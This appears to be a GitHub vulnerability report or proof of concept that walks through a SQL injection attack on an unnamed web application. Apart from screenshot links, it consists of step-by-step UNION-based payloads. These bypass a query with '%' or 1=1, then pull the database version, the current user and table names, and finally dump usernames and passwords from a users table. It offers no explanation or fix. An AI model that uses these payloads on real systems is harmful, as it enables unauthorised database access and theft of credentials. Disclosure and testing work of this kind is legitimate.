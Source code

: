 
![image](https://user-images.githubusercontent.com/75846902/213949910-e16ed004-c048-43aa-9294-e9b617d35435.png)
payload:
`%' or 1=1-- -`

detect to version
![image](https://user-images.githubusercontent.com/75846902/213949995-0a507d40-009c-49a7-b9e4-1756b5d3145e.png)
payload:
`%' or 1=1 union select null,version()-- -`

detect to user
![image](https://user-images.githubusercontent.com/75846902/213950162-6dfe6380-7714-4866-bf7f-0d8a558c6e84.png)
payload:
`%' or 1=1 union select null,user()-- -`

detect to table
![image](https://user-images.githubusercontent.com/75846902/213950250-3395d0c4-7424-47fa-a05d-035f1558b357.png)
payload:
`%' or 1=1 union select null,table_name from information_schema.tables-- -`

detect to table_name 'user'
![image](https://user-images.githubusercontent.com/75846902/213950803-ab3c7679-e56e-4e0c-aa03-60a32836160d.png)
payload:
`%' or 1=1 union select null,table_name from information_schema.tables where table_name like 'user%'-- -`


detect to columns from users_table
![image](https://user-images.githubusercontent.com/75846902/213950769-8a858d77-ab33-4ded-9667-55b56e0424db.png)
payload:
'%' or 1=1 union select null, concat(user,0x0a,password) from users-- -'

